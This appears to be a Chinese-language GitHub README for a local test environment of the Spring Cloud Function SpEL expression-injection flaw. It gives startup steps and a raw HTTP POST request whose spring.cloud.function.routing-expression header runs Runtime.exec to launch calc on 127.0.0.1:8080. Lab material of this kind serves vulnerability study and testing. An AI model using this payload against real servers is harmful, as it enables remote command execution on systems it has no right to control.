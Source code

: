 # Spring-Cloud-Function-SpEL
一个用于Spring Cloud Function SpEL表达式注入的测试环境\
版本 java11 运行 java -jar demo-0.0.1-SNAPSHOT.jar 启动\
\
搭建完成访问127.0.0.1:8080端口\
![image](https://user-images.githubusercontent.com/88339946/160252763-dcdab609-08a5-4d70-afb0-0f8870d64f82.png)
```POST /xxx HTTP/1.1
Host: 127.0.0.1:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

xxx
```
![ed8de6718b7501e80a470a96293aa37](https://user-images.githubusercontent.com/88339946/160252782-8173cb68-e9bc-4337-86fd-36dc9feddce7.jpg)
